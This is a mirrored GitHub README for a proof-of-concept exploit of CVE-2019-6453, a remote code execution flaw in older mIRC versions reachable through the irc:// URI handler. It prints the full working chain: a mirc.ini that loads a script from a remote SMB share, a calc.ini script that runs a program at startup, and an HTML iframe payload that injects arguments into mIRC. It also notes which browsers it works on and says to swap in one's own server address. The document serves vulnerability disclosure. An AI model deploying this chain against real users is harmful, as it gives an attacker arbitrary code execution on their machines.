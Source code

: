 # cve-2019-6453-poc

Proof of calc for CVE-2019-6453

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/proofofcalc](https://github.com/proofofcalc) |
| Url      | [https://github.com/proofofcalc/cve-2019-6453-poc](https://github.com/proofofcalc/cve-2019-6453-poc)                                               |
| Stars    | 51                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2019-6453

</details>

## Readme

# CVE-2019-6453: RCE on mIRC <7.55 using argument injection through custom URI protocol handlers 

\[[Link to the write-up](https://proofofcalc.com/cve-2019-6453-mIRC/)\]


We found a **Remote Code Execution vulnerability** in mIRC through the
**irc://** URI protocol handler. Because mIRC doesn't use any kind of sigil such
as **--** to mark the end of the argument list, an attacker is able to pass
arguments to mIRC through a **irc://** link and execute arbitrary code by
loading a custom **mirc.ini** from an attacker-controlled Samba file server.
Please note that **ircs://** works the same way.

## PoC

The proof of calc requires three files: **mirc.ini**, **calc.ini** and
**poc.html**. We assume a Samba file server is running on the attacker's side.
For the sake of the example, the following pieces of code assume it is running
on host **127.0.0.1** (*i.e. replace **127.0.0.1** by your own server's address
in the following files to try this out*).

### mirc.ini

**mirc.ini** is a custom configuration file that should be located at
**C:\mirc-poc\mirc.ini** on the file server.

```conf
[rfiles]
n2=\\127.0.0.1\C$\mirc-poc\calc.ini
```

### calc.ini

**calc.ini** is a remote script file that should be located at
**C:\mirc-poc\calc.ini** on the file server.

```conf
[script]
n0=on *:START: {
n1=  /run calc.exe
n2=}
```

### poc.html

Just visiting **poc.html** should work assuming mIRC is set as the default
handler for the **irc://** URI scheme and the browser does not encode the
payload. Depending on the browser and your configuration, you might still get
a prompt (*not the case on Firefox*).


```html
<iframe src='irc://? -i\\127.0.0.1\C$\mirc-poc\mirc.ini' />
```

## PoC gif

![PoC gif](rce-poc.gif)

## Affected versions

This PoC runs for mIRC <7.55.

You can trigger the PoC on Edge 42.17134 (*last preview version*) and Firefox
64.0.2 (*last release*).
It doesn't work on Chrome because the way Chrome handle URI protocols (*URI is
encoded before being passed to the application*).

## Authors

- Baptiste Devigne ([Geluchat](https://twitter.com/Geluchat)) and Benjamin Chetioui ([SIben](https://twitter.com/_SIben_))



## Get the content

```
git clone https://github.com/proofofcalc/cve-2019-6453-poc
cd cve-2019-6453-poc
```

{% embed url="https://github.com/proofofcalc/cve-2019-6453-poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/47607270?v=4" alt=""><figcaption><p>proofofcalc</p></figcaption></figure>
